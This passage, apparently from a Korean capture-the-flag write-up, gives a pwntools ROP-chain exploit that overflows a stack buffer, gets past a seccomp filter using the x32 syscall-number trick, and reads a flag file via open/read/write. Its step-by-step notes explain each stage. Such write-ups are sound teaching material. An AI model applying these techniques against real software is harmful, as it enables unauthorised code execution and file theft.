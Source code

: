 ```python
ROP += p64(pie_base + e.bss())			
ROP += p64(0)     
ROP += p64(syscall)

# read(3, bss, 0x64)
ROP += p64(pop_rax_rdi_rsi)
ROP += p64(0)  			
ROP += p64(0)           
ROP += p64(0)			
ROP += p64(pop_rdx)		
ROP += p64(0x64)
ROP += p64(0)
ROP += p64(0)
ROP += p64(3)     		
ROP += p64(pie_base + e.bss())
ROP += p64(syscall)

# write(1, bss, 0x64)
ROP += p64(pop_rax_rdi_rsi)
ROP += p64(1)  				
ROP += p64(0)           	
ROP += p64(0)				
ROP += p64(pop_rdx)		
ROP += p64(0x64)
ROP += p64(0)
ROP += p64(0)
ROP += p64(1)     						
ROP += p64(pie_base + e.bss())			
ROP += p64(syscall)

print p.sendlineafter(":", ROP) 
print p.send("/home/ctf/flag\x00")

p.interactive()
```

1. 가젯 주소 구하기
    - PIE 가 걸려 있기 때문에 앞에서 구한 PIE base 주로랑 더해 실제 주소로 바꿔준다.
2. 스택 오버 플로우
    - ROP Gadget 주소로 이동하기 위해 168 바이트에 위치하는 리턴 주소까지 더미 값을 채워준다.
3. flag 파일 경로 입력 받기
    - 우리는 open 함수를 우회하여 사용이 가능하기 때문에
    - flag 파일의 경로가 필요하다 open 함수로 받기에는 길이 값이 크기 때문에 직접 read 함수를 사용하여 입력 받을 수 있도록 한다.
    - 중요한 점은 bss 영역에 write 권한이 존재하기 때문에 해당 부분에 입력한다.
4. flag 파일 open
    - seccomp filter를 우회하기 위해 syscall num을 0x40000000가 or 연산한 값을 보낸다.
    - 그리고 bss 영역의 첫 번째 주소에 해당하는 값을 읽어 오면 된다.
5. flag값 읽어오기
    - open 함수의 반환 값인 default 다음 fd인 3 번째를 사용하여 정보를 읽어와 bss 영역에 저장한다.
6. 출력하기
    - stdout fd사용하여 bss 영역에 존재하는 flag 값을 출력한다.
